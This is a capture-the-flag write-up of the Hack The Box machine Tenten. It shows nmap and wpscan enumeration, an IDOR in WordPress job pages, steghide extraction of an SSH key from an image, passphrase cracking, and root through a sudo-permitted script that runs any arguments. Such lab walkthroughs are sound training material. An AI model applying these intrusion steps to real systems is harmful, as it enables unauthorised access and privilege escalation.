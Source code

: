 # HTB - Tenten

#### Ip: 10.10.10.10
#### Name: Tenten
#### Rating: Medium

----------------------------------------------------------------------

![Tenten.png](../assets/tenten_assets/Tenten.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.10         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:42 CDT
Nmap scan report for 10.10.10.10
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -sC -sV -T4 10.10.10.10 -p 22,80     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:43 CDT
Nmap scan report for 10.10.10.10
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://tenten.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```

Based on these results lets go ahead and add tenten.htb to `/etc/hosts`.

Heading to the site we find it's running WordPress.

Lets kick off a wpscan to see if we can find any users:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ wpscan --url http://tenten.htb --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.10.10.10]
```

Cool, we've found one user named takis.

![takis.png](../assets/tenten_assets/takis.png)

Lets head back to the site to see what we can find.

![site.png](../assets/tenten_assets/site.png)

Clicking on the Job Listings link we see a job posting we can apply for:

![jobs.png](../assets/tenten_assets/jobs.png)

Clicking into the Apply Now button, I'm most interested in the fact that this job or application id is directly represented with an `/8`. 

![8.png](../assets/tenten_assets/8.png)

Playing around with this manually, I see this site has an IDOR vulnerabilty and I can access other materials just by changing the number or ID in the browser. 

### Exploitation

I manually tested this (probably would have been easier to just generate a number list and fuzz this in Burp or with Ffuff), until I reached `/13` which had an interesting attachment:

![13.png](../assets/tenten_assets/13.png)

We can fill out the appplication with test data and submit:

![hey.png](../assets/tenten_assets/hey.png)

Now that the aplication is submitted, we need to find out where the file ended up. This bit was tricky for me. I knew that standard WP files are loaded to `/wp-content/uploads/YEAR/MONTH/FILE` But was having a hard time finding it. I eventually checked when the box was created (May, 2017) and started fuzzing months in 2017. I eventually found our file at http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg where I find a creepy "hacker" guy:

![hacker.png](../assets/tenten_assets/hacker.png)

Not knowing exactly what to do with the image file, I downloaded it to my attacking machine and named it "creepy_hacker.jpg." Lets use exiftool to see if there is an steganography in play here, and something is embedded in the image file.

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ steghide extract -sf creepy_hacker.jpg                   
Enter passphrase: 
wrote extracted data to "id_rsa".
``` 

Whoa.. this is an id_rsa? 

Trying to use the key for user takis we see it's protected by a passphrase:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10   
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ED25519 key fingerprint is SHA256:5a3db7g5K/KVQU7u9yholvmJI7kp3pWZj0qtGz4Yr9Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password: 
```

We can use ssh2john to crack this:

![john.png](../assets/tenten_assets/john.png)

Nice, John was able to crack this easily.

We can now login as user takis:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

takis@tenten:~$ whoami && hostname
takis
tenten
```

And grab the user.txt flag:

![user_flag.png](../assets/tenten_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` on the box presents me with an interesting result:

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

I have no idea what this is, so I turned to Google and found lots of people who REALLY hate Linux for some reason:

![linux.png](../assets/tenten_assets/linux.png)

Not much help there..

Interesting, it appears to be a Bash script:

```text
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
So in theory we should just be able to run it with `sudo` and whatever command we pass will be executed with root permissions. Lets try it

```text
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# whoami
root
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! That worked!

Lets grab that final flag:

![root_flag.png](../assets/tenten_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------
